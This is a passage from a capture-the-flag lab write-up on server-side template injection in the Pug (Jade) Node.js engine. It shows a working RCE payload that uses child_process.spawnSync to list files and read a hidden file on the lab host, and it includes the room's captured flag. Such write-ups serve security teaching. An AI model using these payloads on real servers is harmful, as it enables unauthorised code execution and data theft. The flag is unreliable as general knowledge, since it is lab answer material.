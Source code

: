 In this corrected form:

- **'ls'** is the command.
- **['-lah']** is an array containing all arguments passed to the command.

This structure ensures that the `ls` command is called with `-lah` as its argument, allowing the command to function as intended. So, the final payload will then be `#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}`

![Directory contents including the hidden files using -lah argument](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/645b19f5d5848d004ab9c9e2-1716707909450)


### Practical
---

Let's visit:


```
http://ssti.thm:8001/jade/
```

We can see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505175625.png)

Let's submit a test payload:

```
#{;}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505175642.png)

We get these errors, it means, we are dealing with `pug`, we can achieve `rce` on here by using:

```node
#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505175742.png)

We got our hidden file, let's read it:

```node
#{root.process.mainModule.require('child_process').spawnSync('cat', ['7f58571b42d8c477a2f3efa69a681ac3.txt']).stdout}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505175832.png)

Got our flag:

```
THM{1f8c3b32ad3217e84c145398bae00876} 
```

# Python - Jinja2
---
